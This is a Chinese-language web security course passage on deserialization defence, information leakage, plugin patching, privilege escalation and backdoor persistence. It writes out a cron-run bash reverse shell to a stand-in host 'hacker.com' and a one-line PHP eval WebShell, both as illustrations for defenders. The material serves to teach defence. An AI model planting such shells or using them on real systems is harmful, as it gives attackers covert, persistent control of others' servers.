转化工具的过程中，需要注意避免序列化和反序列化接口类。这就相当于白名单的过滤：只允许某些类可以被反序列化。我认为，只要你在反序列化的过程中，避免了所有的接口类（包括类成员中的接口、泛型等），黑客其实就没有办法控制应用反序列化过程中所使用的类，也就没有办法构造出调用链，自然也就无法利用反序列化漏洞了。

3.RASP 检测

通常来说，我们可以依靠第三方插件中自带的黑名单来提高安全性。但是，如果我们使用的是 Java 自带的序列化和反序列化功能（比如ObjectInputStream.resolveClass），那我们该怎么防护反序列化漏洞呢？如果我们想要替这些方法实现黑名单的检测，就会涉及原生代码的修改，这显然是一件比较困难的事。为此，业内推出了 RASP（Runtime Application Self-Protection，实时程序自我保护）。RASP 通过 hook 等方式，在这些关键函数的调用中，增加一道规则的检测。这个规则会判断应用是否执行了非应用本身的逻辑，能够在不修改代码的情况下对反序列化漏洞攻击实现拦截。关于 RASP，之后的课程中我们会专门进行讲解，这里暂时不深入了。简单来说，通过 RASP，我们就能够检测到应用中的非正常代码执行操作。我个人认为，RASP是最好的检测反序列化攻击的方式。 我为什么会这么说呢？这是因为，如果使用认证和限制类这样的方式来检测，就需要一个一个去覆盖可能出现的漏洞点，非常耗费时间和精力。而 RASP 则不同，它通过 hook 的方式，直接将整个应用都监控了起来。因此，能够做到覆盖面更广、代码改动更少。但是，因为 RASP 会 hook 应用，相当于是介入到了应用的正常流程中。而 RASP 的检测规则都不高效，因此，它会给应用带来一定的性能损耗，不适合在高并发的场景中使用。但是，在应用不受严格性能约束的情况下，我还是更推荐使用 RASP。这样，开发就不用一个一个去对漏洞点进行手动修补了。

#### 总结



### 信息泄漏

#### 为什么错误信息会泄漏代码逻辑？

当黑客在登录某个页面时，在用户名位置输入一个单引号，在密码位置输入一个“g”之后，就会出现如下的错误信息。

````java
An Error Has Occurred.
    Error Message:
   System.Data.OleDb.OleDbException: Syntax error (missing operator) in query expression 'username = ''' and password = 'g''. at
  System.Data.OleDb.OleDbCommand.ExecuteCommandTextErrorHandling ( Int32 hr) at
  System.Data.OleDb.OleDbCommand.ExecuteCommandTextForSingleResult ( tagDBPARAMS dbParams,  Object& executeResult) at 
````

​		从这个错误信息中，我们可以看到，网页最终执行了一个 SQL 语句，这个 SQL 语句的部分内容为username = ''' and password = 'g'。因此，后台的大致逻辑应该是下面这样的。第一，错误信息反馈的是 Syntax error，即语法错误。在密码位置输入单个字母“g”肯定不会引起错误，所以，这个 SQL 语句是因为多了一个单引号导致的报错。而如果使用了 PreparedStatement 等方法，是不会产生这个错误的。因此，后台的 SQL 查询应该是直接采用的字符串拼接，且没有过滤单引号。第二，错误信息中显示了部分的 WHERE 条件是username = '' and password = ''。这又是一个登录的逻辑，所以，只要用户名和密码正确，这个 SQL 语句会返回黑客需要的用户信息。因此，后台的 SQL 语句应该是形如 select from where 的格式。根据这些信息，黑客很容易就可以发起 SQL 注入攻击了。		在 Java Spring 中，我们也可以通过配置ExceptionHandler等来进行处理。避免错误信息泄漏代码逻辑，一方面是要通过正确的配置文件，避免错误信息被展示到前端；另一方面是要对错误信息进行检测，这里就需要用到“黑盒”检测了。所谓“黑盒（Black Box Testing，功能测试）”，就是在不获取代码的情况下，直接运行应用，然后对应用的请求和响应进行扫描。比如，在错误信息泄漏的场景中，“黑盒”检测可以向应用发起一些必然会导致错误的请求（比如上述例子中的单引号），然后观察应用是返回完整的错误日志，还是返回某些经过处理的页面。好了，现在你应该明白了，为啥错误信息会泄漏代码逻辑。实际上，错误信息泄漏属于一种间接的信息泄漏方式。间接的信息泄漏方式主要是通过拼凑各种零散信息，还原出代码整体的面貌，然后有针对性地发起攻击。所以我们常说，黑客的攻击本身就是一个“聚沙成塔”的过程。

#### 返回信息泄漏和注释信息泄漏

​		注释信息你应该很熟悉。因为所有的前端代码基本都不需要编译就可以展示在浏览器中，所以黑客很容易就可以看到前端代码中的注释信息。但是，如果这些注释信息中出现服务器 IP、数据库地址和认证密码这样的关键信息。一旦这些关键信息被泄漏，将会造成十分严重的后果。那该如何避免关键的注释信息出现在线上的代码中呢？我们经常会使用一种叫作“白盒”的代码检测方法。所谓“白盒（White Box Testing，结构测试）”，即直接获取到线上的源代码，然后对它进行扫描。“白盒”扫描注释信息的原理比较简单，因为每一种语言的注释都会带有特殊的标记（比如 Java 和 PHP 中的 /* 等），可以比较准确地被识别出来。

​		前面讲SSRF攻击的时候，我们模拟过这样一个场景：服务端在请求一个图片地址的时候，会根据地址的“存活”情况和返回数据的类型，分别返回三种结果：“图片不存在”“格式错误”以及图片正常显示。而黑客正是通过服务端返回信息的逻辑，利用一个请求图片的 SSRF，摸清整个后端的服务“存活情况”。类似的多种返回状态的场景还有很多，你可以想想自己平时工作中有没有遇到过。这里我再说一个常见的。当你在登录应用的时候，应用的返回逻辑可能是这样的：如果输入的用户名和密码正确，则登录成功；如果应用没有这个用户，则返回“用户名不存在”；如果输入的用户名和密码不匹配，则返回“密码错误”。尽管这样清晰的登录提示对于用户体验来说，确实是一个较优解，但这个逻辑同样也暴露了过多的信息给黑客。黑客只需要不断地发起登录请求，就能够知道应用中存在的用户名，然后通过遍历常见的弱密码进行尝试，很容易就能够猜对密码。这样一来，猜对密码的成功率就比尝试同时猜测用户名和密码要高很多。实际上，返回信息过于明确不算是代码层面的漏洞，更多的是产品层面的漏洞。因此，理论上没有任何技术手段能够对这种漏洞进行检测，只能依靠人为的分析审计来避免。解决方案也比较简单，直接将返回信息模糊化、统一化即可。比如，在上述登录的场景中，我们可以将两种登录失败的返回信息，统一修改为“用户名不存在或密码错误”。这样一来，既避免了用户体验受到太大影响，又消除了关键信息被黑客获取的隐患。

#### 其它泄漏

SVN 会在项目目录中创建一个.svn 文件夹，里面保存了应用每一个版本的源文件信息，这也是 SVN 实现代码回滚的数据基础。如果 SVN 可以通过.svn 中的数据提取应用任意版本的代码，那黑客也可以。只要你没有在上线代码的时候删除其中的.svn 目录，那就代表黑客可以通过.svn 中的 URL 访问里面的所有文件。接下来，只需要通过执行简单的脚本，黑客就可以回溯出一个完整版本的代码了。对于这种因为目录中额外内容（.svn/.git）导致的源码泄漏，我们一方面需要对线上代码进行人工的代码审查，确保无关的文件和文件夹被正确地清除；另一方面，我们也可以在 HTTP 服务中对部分敏感的路径进行限制。比如，在 Apache httpd 中配置下面的内容，来禁止黑客对.svn 和.git 目录的访问。

上传代码到 GitHub。

#### 总结



###  插件漏洞

#### 原理

​		对于应用来说，不只代码本身会产生漏洞，除了代码之外的一切也都有可能出现漏洞。从提供加解密功能的工具 OpenSSL，到提供网络服务的框架 Structs 2，甚至是基础的操作系统 Linux，都有可能出现各种漏洞。插件漏洞既能够破坏插件本身的功能，也能让黑客以插件为跳板，实现控制整个应用甚至是服务器。

#### 防护

第一步：整理插件，剔除无用插件

你可以通过Maven Dependency Plugin帮助自己自动分析插件依赖树。除了展示出当前 Maven 工程中所有的使用插件，Maven Dependency Plugin 还会对插件的使用情况做进一步地分析，帮你找出在 POM 中却没在代码中使用的插件。这样，你就可以对这一类无用的插件引用及时剔除，自然也就能够减少插件漏洞出现的可能性。

第二步：管理插件补丁更新

Version Maven Plugin

那使用了补丁管理工具之后，我们就可以完全放心了吗？当然不是。补丁管理中依旧存在一些问题，我这里从 3 个方面帮你梳理了一下，你可以作为了解。

1.补丁可用性：并不是所有的插件漏洞，都能有最新的补丁进行及时地更新和维护。很多时候，运维人员会面临一个已知的漏洞，但无补丁“可打”的窘迫局面。

2.覆盖面不全：实际上，并不是所有语言都能够很好的进行插件分析工作，这也就导致运维人员无法掌控公司内使用的所有插件。这个时候，必然会产生一定的漏洞疏忽。

3.更新时间延迟：为了提高打补丁的效率，补丁管理一般会按月或者按季度进行集中的打补丁工作。而在这个期间，公司的应用就会处于无保护的状态。

#### 虚拟补丁

​		为了解决这些问题，虚拟补丁的概念就被提出了。所谓虚拟补丁，就是在不对应用插件进行升级的情况下，有效阻止攻击流量。实现的原理也很简单，即在前置的网络或系统中，对针对插件漏洞的攻击流量进行检测和拦截即可，大部分防火墙、IPS 等安全防御工具，都会提供虚拟补丁的功能。比如，2017 年，永恒之蓝肆虐的时候，防火墙会直接封禁 445 端口请求，就相当于给所有的 Windows 系统，打上了虚拟补丁。然后，只需要等到所有 Windows 都真正更新补丁之后，再放开对 445 端口的限制即可。

第三步：使用公开漏洞库

OWASP Dependency-Check

JavaScript插件管理工具：retire.js

### 权限提升和持久化

#### 权限提升：为什么黑客能通过 SSRF 拿到服务器权限？

​		首先，我们先来搞清楚，黑客是如何通过 SSRF 拿到服务器权限的。在解决这个问题之前，我们先来了解一个概念，权限提升。

​		在应用或系统中，黑客或者被黑客控制的用户，通常会通过漏洞攻击或者利用弱密码，获取到其他用户的权限。在获取了新的用户权限之后，黑客就能够以新用户的身份去窃取和篡改数据，进行非法的操作了。这就是权限提升（Privilege Escalation）。也就是说，黑客可以通过不断获取新的身份，来不断扩大（或者叫提升）自己的权限，不断扩大攻击影响，最终实现控制整个系统。

​		好了，现在你应该知道权限提升是什么了。事实上，权限提升还可以根据攻击效果分为两类，即水平提升和垂直提升。

​		水平提升是指黑客获取了另外一个“平级”用户的权限。尽管权限等级没变，但因为黑客控制的用户身份发生了变更，所以黑客能够获得新的数据和权限。比如，常见的普通用户被盗号就是一种水平提升。黑客本来只能够登录自己的账号，但他却通过破解密码的方式，登录到其他用户的账号，从而可以查看他人的个人信息，利用他人账号进行交易转账。

​		相比较来说，垂直提升的危害性更大。通过垂直越权，黑客能够获得一个更高级别的权限，通常来说，是应用的管理员或系统的 ROOT 权限。拥有高等级权限后，黑客自然就能够获取到大部分的数据了。除此之外，通过高等级的权限，黑客还能够禁用审计功能、删除相关日志，从而隐匿自己的行踪，让你无法发现攻击事件的存在。

​		前面我讲过，在我经历的这个事件中，黑客是利用SSRF漏洞进入的内网，那在了解权限提升的原理和分类之后，我们接着来分析一下，黑客是如何通过 SSRF 漏洞做到权限提升的。

​		首先，这个 SSRF 是有回显的，所有内网请求的响应都能够直接被黑客看到。所以，黑客利用.svn 文件的信息泄漏，一点一点请求内网的各种地址，最终获得了一台服务器上的代码。获得代码之后，黑客通过分析，知道这个服务器存在 SQL 注入漏洞。于是，黑客通过 SQL 注入，成功在这台服务器上执行了命令。然后，黑客就开始对内网进行 SSH 扫描，最终以用户名“root”和密码“123456”，成功获得了一台内网服务器的 ROOT 权限。



事实上，几乎所有的漏洞和攻击（包括前面讲到的几个 Web 漏洞）都可能导致权限提升。总体来说，权限提升的方法可以分为下面这两种。

1.窃取身份：前面我们讲过，身份认证的相关风险和攻击包括：无认证、弱密钥、认证信息泄漏和认证环节破解等。这些攻击的最终结果其实都一样，就是黑客成功登录了他人的账号，也就意味着权限提升的发生。

2.利用漏洞获得权限：从行业现状来说，对于补丁管理的工作普遍做得不到位，各种有漏洞的系统和插件仍在大量使用。因此，权限提升最普遍的方法还是利用漏洞获得权限。这其中，既包括已公开的漏洞，比如上节课中提到的“脏牛”，还包括很多资深黑客所掌握的“0 day”漏洞。

#### 权限持久化：为什么漏洞修复了，还有“后门”？

​		想要解决这个问题，我们先要来看一下“后门”的概念。当黑客通过权限提升，成功获取到一个高级别的权限后，为了保留这个权限，黑客会在应用中留下一个隐藏的进程，下次只要黑客想再次进入，就可以通过这个进程来连通，而不需要再次去绕过各种安全流程。这就是“后门”。也就是说，“后门”能够让你在不经过正常流程的情况下，就直接获得一些权限。

​		在我前面讲的例子中，黑客就是在攻进系统后，给自己留下了一个“后门”，开辟了一条非正规的快速通道。那黑客是怎么操作的呢？

​		比如说，黑客在进入服务器之后，会留下下面这样一个脚本，让这个脚本，每分钟都执行一次：

````shell
bash -i >& /dev/tcp/hacker.com/8080 0>&1
````

​		这个脚本运行后，只要 hack.com 的 8080 端口打开，那么服务器就会通过 TCP 获取 8080 端口返回的命令并执行。因此，只要黑客任意时刻在 hacker.com 中监听 8080 端口（比如通过 nc -l 8080），就可以获得服务器定时送上来的命令执行权限。

​		所以，不管漏洞是否修复，黑客都可以通过这个快速通道轻松进入系统。而“后门”的关键意义就在于，为黑客长时间保持高权限的通道，使得黑客能够进行长时间地潜伏和攻击。

​		比较有意思的是，“后门”不仅仅是为黑客服务的，正常的应用中可能也会留下一些“后门”以备特殊情况。比如，2008 年，微软曾进行过一次打击盗版 Windows 的行动，当时国内的盗版 Windows 在同一时间出现了黑屏现象。显然，微软不可能知道所有人的管理员密码，但是微软会通过预留的“后门”实现对系统的控制。类似情况还有很多，比如，管理员在特殊情况下（比如忘记密码），可以通过“后门”对应用进行一些操作。

#### “后门”是如何工作的？

​		接着，新问题又来了，既然修复漏洞之后，黑客依然可以通过“后门”自由进出，那我们该如何关掉这个“后门”呢？我们先来看看“后门”是如何工作的，知道了它的工作原理，我们才能“对症下药”，从根本上解决问题。

​		我们前面课程讲过的所有攻击方式，通常都是为了造成一些显式的攻击。而“后门”的目的则不同，“后门”会尽力隐藏自己不被别人发现。因此，“后门”通常会以木马的形式出现。

​		所谓木马（Trojan），就是一些外表看起来正常，但会对应用和系统进行破坏的服务和进程。比如，很早之前流行过的“灰鸽子”木马，就是和正常的应用绑定在一起。这样“灰鸽子”就能在应用运行的时候监控应用的全部操作了（屏幕、键盘、摄像头等）。又因为应用正常的功能不会受到影响，所以，用户几乎感知不到“灰鸽子”的存在。

​		那木马可不可以不依附于应用，直接隐藏自己呢？当然可以。那么，“后门”就发展成了 Rootkit。通常来说，Rootkit 会驻扎于内核中，通过修改内核的逻辑来完成“后门”的功能。因为内核具备较高的权限，所以 Rootkit 就能破坏杀毒软件这样的安全进程，而不被轻易发现。同样地，因为 Rootkit 驻扎在内核中，理论上，除了重装系统以外，没有其他更好的方式来根除“后门”。

​		除了以隐藏进程的形式运行“后门”，黑客也可以把“后门”留在正常的 Web 服务中，这就变成了 WebShell。在 PHP 中，最简单的一句 WebShell 如下：

````php
<?php @eval($_POST['shell']);?>)
````

​		只要将这个 PHP 文件放到 Web 服务的目录中，黑客就可以通过在 POST 参数中填入 Shell 命令远程操控服务器。

​		总之，“后门”通常会以木马、Rootkit 或者 WebShell 等比较隐蔽的形式运行在系统中。而黑客可以通过和“后门”的直接通信，来获得服务器的操控权限。

#### 黑客如何将“后门”植入到系统？

​		好了，现在你应该知道“后门”是如何工作的了，那黑客又是怎么将“后门”植入系统的呢？

​		毫无疑问，最直接的方式就是通过权限提升，即黑客直接获取到系统的命令执行权限，然后通过网络将“后门”程序从云端下载下来。

​		除此之外，黑客还可以通过文件上传漏洞向服务器上传一个程序。在使用应用的时候，用户经常需要上传一些文件，比如：头像的图片、邮件附件和简历等。很多时候，开发人员为了方便，会直接将上传的文件存储到当前目录，也就是 Web 服务的目录中。这个时候，如果黑客上传的是一个 PHP 文件，那么这个 PHP 文件就会被放入到 Web 服务的目录中。因此，黑客只需要上传一个包含 WebShell 的 PHP 文件，就成功了植入了一个“后门”。

​		通过权限提升或者文件上传漏洞成功植入“后门”之后，黑客还需要保证“后门”的持久化。因此，“后门”需要常驻于系统的后台，并能够随着系统的开关机而启动。为了实现这个目的，黑客通常会在定时任务（crontab）或者开机启动项（inittab、rc.local）的配置中，加上“后门”的执行命令。

​		除此之外，黑客还可以利用伴随于系统的常驻进程来保证“后门”的持久化。对于 WebShell 来说，只要 Web 服务保持可用，那么 WebShell 也一直可用。对于 Rootkit 来说，它们会直接篡改内核的初始函数来进行自启动，也就更难被发现和去除。

​		总之，持久化要么是通过定时任务、开机启动等方式来实现，要么就是通过伴随于系统的常驻进程来实现。

#### 防护

最小权限原则和 IDS

​		首先，最基础的防护是从制度和技术上去落实最小权限原则。所谓最小权限原则，就是给每一个用户和进程等，只分配它们需要用到的权限。从技术实现上来说，可以通过配置一定的访问控制策略来进行强化，比如在 Linux 中给予特定进程单独的角色权限等，这部分内容我会在后续的课程中详细介绍。通过最小权限原则的落实，你就能够限制黑客在每一次权限提升时得到的收益，甚至阻断黑客权限提升的可能。

​		其次，就是利用 IDS（Intrusion Detection System，入侵检测系统）对黑客的异常行为进行检测。IDS 的检测原理就是，通过分析正常用户和黑客在网络层或者主机层中的行为异同，来识别黑客的攻击。比如，正常用户不会去连接内网中不相干的主机，而黑客则必须通过扫描去探测内网等。

​		如果黑客已经在进行权限提升和持久化的操作了，这就意味着应用和系统已经出现了各种漏洞。因此，在这个前提下，我们要考虑的不是如何去修复和避免漏洞，而是在出现漏洞后，如何降低损失并尽早发现漏洞。这其实也是安全中纵深防御的一种思想：对不同的层级进行不同的防御，即使前面层漏过了，下一层还能够接着进行防护。

#### 总结

